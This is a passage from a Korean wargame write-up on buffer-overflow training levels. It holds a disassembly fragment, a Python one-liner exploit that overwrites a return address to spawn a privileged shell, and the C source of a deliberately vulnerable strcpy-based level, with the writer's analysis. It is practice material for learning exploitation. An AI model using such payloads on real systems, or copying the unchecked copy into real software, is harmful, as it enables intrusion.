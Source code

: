 ```asm
0x804840e <main+22>:	push   0x8048470
0x8048413 <main+27>:	call   0x804833c <printf>
0x8048418 <main+32>:	add    %esp,8
0x804841b <main+35>:	leave
0x804841c <main+36>:	ret
0x804841d <main+37>:	nop
0x804841e <main+38>:	nop
0x804841f <main+39>:	nop
```

### 3. exploit code
```
(python -c 'print "A"*20+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"';cat)|./goblin

my-pass
euid = 503
hackers proof
```

## goblin

### 1. source code
```c
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);
}
```
소스 코드가 기존 보다 어려워졌다... 좀 분석을 하자면
egghunter이 등장하였는데 for와 memset을 이용해 environ을 0으로 초기화 한다.
이후 2차원 배열을 통해 argv [1][47] 값이 \xbf가 되야 한다. 입력 값이 48 번째 값이 \xbf가 되야 하나 보다...
